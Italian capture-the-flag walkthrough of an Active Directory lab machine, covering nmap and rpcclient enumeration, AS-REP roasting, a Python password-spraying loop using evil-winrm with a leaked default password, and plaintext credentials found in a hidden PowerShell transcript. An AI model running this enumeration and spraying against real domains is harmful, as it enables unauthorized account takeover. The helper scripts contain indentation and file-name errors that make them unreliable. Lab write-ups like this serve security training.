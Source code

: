 ## Information Gathering

Tramite una prima scansione al volo con nmap scopro i seguenti servizi interessanti attivi:

```
nmap -sV -sS -O -A <IP>

PORT     STATE SERVICE      VERSION
53/tcp   open  domain
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-04-02 17:57:14Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped

```

Contemporaneamente con enum4linux sono emersi diversi usernames e gruppi. Prelevo il frammento e "pulisco" il testo per estrarre gli usernames puliti con il seguente script:

```
import re 

users = "[Administrator] rid:[0x1f4] \
user:[Guest] rid:[0x1f5] \
etc..."

usr = users.split("user")

for x in usr:
	y = re.findall("\[(.*?)\]", x)[0]
	with open("clean_usr.txt", mode="w+") as f:
    f.write(y)
```
Creato il listato, lo uso per provare a sniffare dei TGT dal servizio di Kerberos:

```
python GetNPUsers.py htb.local/ -no-pass -usersfile clean_user.txt -dc-ip 10.10.10.XXX
```
Ma non ne ricavo nulla...
Quindi effettuo anche una scansione del servizio rpcclient:

```
rpcclient -W workgroup -c querydispinfo -U '' -N  res
```

E scopro una password default per l'utenza "marko": Welcome123!

## Exploiting in the System

A questo punto, grazie a [Lorenzo Invidia](https://github.com/lorenzoinvidia), scopro che la password non è più valida per Marko, tuttavia potrebbe essere valida per altri!

Quindi scrivo il seguente script, che prova a collegarsi alla macchina (e con la password sopracitata) per tutti gli utenti ricavati:

```
import os

with open("users_list.txt", mode="r") as f:
	users = f.read().splitlines()

for x in users:
	stream = os.popen("evil-winrm -u "+ x +" -p Welcome123! -i resolute")

	if "WinRM::WinRMAuthorizationError" in stream.read():
		print "[-] " + x + " non valido"
	else:
		print "[*] Utente trovato: " + x
		exit(0)
```

Trovo così l'utenza di melanie. Entro nel sistema e trovo il primo flag!

## Privilege Escalation

Ho tentato svariati tentativi, ho lanciato WinPeas, ho provato a recuperare le credenziali di AutoLogon di Administrator tramite Metasploit ma non sono riuscito a recuperare niente. Questo punto ho notato che esistono tanti utenti presenti all'interno del sistema quindi ho ricercato possibili credenziali in chiaro. 

Inizialmente non ho rinvenuto alcun file, quindi ho cercato i file nascosti (partendo da melanie) con:

```
Get-ChildItem -Force -Hidden -Recurse 2>$null
```

Ma non ho trovato nulla. Quindi, facendo partire il comando dalla root del disco C: trovo parecchi file interessanti nascosti, fra cui anche il SAM e SYSTEM. (Ma forse non sono accessibili, non ho provato).

Fra tutti i file, mi è saltato all'occhio:

* PowerShell_transcript...txt

Aprendolo trovo le credenziali per l'utente ryan, in chiaro! Quindi loggo all'interno del sistema con le sue creds.


    
